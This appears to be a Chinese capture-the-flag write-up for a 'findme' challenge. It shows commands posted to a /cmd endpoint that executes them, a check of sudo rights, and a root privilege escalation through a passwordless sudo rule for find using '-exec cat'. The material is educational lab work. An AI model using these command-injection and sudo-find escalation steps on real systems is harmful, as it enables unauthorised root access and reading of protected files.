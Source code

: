 ### findme

我们访问网站发现如下提示：

```
Please POST 'shit' to /cmd
```

提示我们需要post请求提交参数，访问 `/cmd` 目录

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304012124518.png" alt="image-20230401212433415" style="zoom: 33%;" />

提示在环境变量中没有发现ls命令，于是我们使用绝对路径：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304012126403.png" alt="image-20230401212627339" style="zoom:50%;" />

查看到了flag在根目录下面，于是我们使用 :

```
shit=/bin/cat flag
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304012128020.png" alt="image-20230401212818951" style="zoom: 33%;" />

提示我们没有权限，于是我们使用命令：

```
shit=/usr/bin/sudo -l
```

`sudo -l` 会显示出`sudo使用者`的权限

![image-20230401213116794](https://raw.githubusercontent.com/leekosss/photoBed/master/202304012131905.png)

提示当前用户：`ctf` 在 `/usr/bin/find` 使用`sudo`可以不需要密码(`NOPASSWD`) 

[linux中sudo免密码](https://knightyun.github.io/2019/06/20/sudo-nopasswd)

我们查看一下根目录下 `start.sh` 内容：

```
shit=/bin/cat start.sh
```

start.sh

```bash
#! /bin/bash


useradd ctf
echo "ctf ALL=(root) NOPASSWD: /usr/bin/find" > /etc/sudoers.d/ctf && chmod 0440 /etc/sudoers.d/ctf  # 此处给个findNOPASSWD，并修改权限

su - ctf -c "/main"
```

根据以上分析，我们需要知道`find命令`还可以`命令执行`：

例如：

```bash
find flag -exec cat f* \;   # 在bash环境下有特殊意义，因此利用反斜杠来转义
```

在当前目录下找到flag文件，并且执行命令：`cat f*`，

**-exec和 \;之间就是find后的额外命令**



因此，我们可以使用sudo提权find，查看flag文件内容：

```bash
shit=/usr/bin/sudo find /flag -exec cat flag \;
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304012144631.png" alt="image-20230401214440555" style="zoom: 33%;" />

